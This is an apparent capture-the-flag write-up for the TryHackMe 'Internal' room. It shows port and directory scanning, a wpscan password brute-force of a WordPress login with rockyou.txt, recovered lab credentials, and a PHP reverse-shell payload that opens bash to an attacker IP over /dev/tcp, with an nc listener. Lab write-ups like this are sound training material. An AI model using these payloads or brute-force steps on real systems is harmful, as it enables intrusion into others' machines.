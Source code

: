 # Internal

**Room Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

<pre><code><strong>nmap -p- 10.10.46.54
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://10.10.46.54 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Wordpress is running under both /blog and /wordpress. /blog has a login page

```
wpscan --url http://10.10.46.54
wpscan --url http://10.10.46.54/blog --passwords /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

#### Credentials found

<pre><code><strong>Username: admin 
</strong><strong>Password: my2boys
</strong></code></pre>

Trying to login the page redirects to internal.htm so I add that to the host file.

```
vi /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We are able to successfully get into wordpress with the credentials

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Reverse Shell Failed Attempt

revshell.php code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'");
?>
```

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Unable to upload the plugin due to write issues

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

```
http://www.internal.thm/blog/index.php/2020/08/03/hello-worlgd/
```





<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>
